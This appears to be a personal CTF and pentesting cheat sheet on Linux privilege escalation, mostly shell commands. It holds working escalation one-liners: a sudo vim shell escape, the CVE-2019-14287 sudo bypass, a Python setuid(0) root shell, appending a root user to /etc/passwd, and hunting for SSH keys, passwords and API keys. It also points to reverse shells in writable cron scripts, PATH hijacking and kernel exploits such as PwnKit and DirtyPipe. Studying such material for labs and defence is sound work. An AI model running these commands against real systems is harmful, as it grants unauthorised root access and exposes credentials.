

# Linux PrivEsc

## Up
- [[Privilege Escalation]]

Escalate from a low-priv Linux user to **root**. Enumerate broadly, then attack the first solid vector. Abuse of a specific binary → look it up on **GTFOBins**.

---

## Enumerate (automated + manual)

```bash
# automated
./linpeas.sh | tee lp.txt          # the go-to; also lse.sh, linux-exploit-suggester.sh

# manual essentials
id; sudo -l                        # what can I run as root/other users?
uname -a; cat /etc/os-release      # kernel + distro (exploit-suggester)
cat /etc/passwd                    # users with shells
find / -perm -4000 -type f 2>/dev/null    # SUID binaries
find / -perm -2000 -type f 2>/dev/null    # SGID
getcap -r / 2>/dev/null            # capabilities
crontab -l; cat /etc/crontab; ls -la /etc/cron.*   # scheduled jobs
ps aux | grep root                 # root processes (pspy for live)
netstat -tulpn / ss -tulpn         # internal services (pivot targets)
find / -writable -type d 2>/dev/null       # writable dirs
```

---

## Top Vectors

### 1. sudo misconfigurations (`sudo -l`)
```bash
sudo -l                            # lists allowed commands
sudo /usr/bin/vim -c ':!/bin/sh'   # any GTFOBins entry → root
sudo -u#-1 /bin/bash               # CVE-2019-14287 (sudo < 1.8.28)
# LD_PRELOAD / LD_LIBRARY_PATH if env_keep set
```
Any binary you can `sudo` → check **GTFOBins** for the escalation one-liner.

### 2. SUID / SGID binaries
```bash
find / -perm -4000 -type f 2>/dev/null
# known: /bin/bash -p, find, nmap --interactive, cp, nano, vim, python, tar, awk...
./suidbin ... # → GTFOBins "SUID" section
# custom SUID? reverse it / check for relative-path or system() calls (PATH hijack)
```

### 3. Cron jobs
```bash
cat /etc/crontab; ls -la /etc/cron.d /etc/cron.daily
# writable script run by root → put a reverse shell / chmod +s /bin/bash
# wildcard injection (tar/rsync *) ; PATH-based hijack if script calls a bare binary
pspy64                              # watch cron/root processes without root
```

### 4. Capabilities
```bash
getcap -r / 2>/dev/null
# cap_setuid+ep on python/perl → setuid(0) shell
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### 5. Writable /etc/passwd or shadow
```bash
ls -l /etc/passwd                  # writable? add a root user:
openssl passwd -1 -salt x pass     # → hash
echo 'hacker:<hash>:0:0::/root:/bin/bash' >> /etc/passwd; su hacker
```

### 6. PATH hijacking
A root SUID/cron binary calling a command by **relative name** → drop a malicious binary earlier in `$PATH`.

### 7. Kernel / software exploits (last resort)
```bash
uname -r
linux-exploit-suggester.sh         # match kernel to CVEs (DirtyPipe, DirtyCow, PwnKit/pkexec CVE-2021-4034, OverlayFS)
# PwnKit (pkexec) & DirtyPipe are reliable modern go-tos on vulnerable versions
```

### 8. Credentials & reuse
```bash
cat ~/.bash_history ~/.ssh/id_rsa 2>/dev/null
grep -riIE 'password|passwd|secret|api[_-]?key' /var/www /home /etc 2>/dev/null
find / -name "*.conf" -o -name "*.bak" 2>/dev/null   # app/db configs
# DB creds → mysql/psql → often reused for su/ssh
su root            # try found passwords; try creds on every service
```

### Other vectors
- **NFS `no_root_squash`** → mount export, drop a SUID root binary (see [[NFS (2049)]]).
- **Docker/lxd group** membership → mount host / privileged container → root.
- **Writable service unit / systemd timer** → root.
- **Readable backups** of `/etc/shadow` → crack with [[John the Ripper]]/[[Hashcat]].

---

## Flow



---

## Tips

- **`sudo -l` and SUID first** — most CTF Linux privescs are one of: sudo entry, SUID GTFOBin, writable cron, or reused creds.
- Use **pspy** to see root cron/processes without being root.
- Always check **GTFOBins** for any binary you can run as root or that's SUID.
- Kernel exploits are the **last** resort (can crash the box) — enumerate config/creds first.
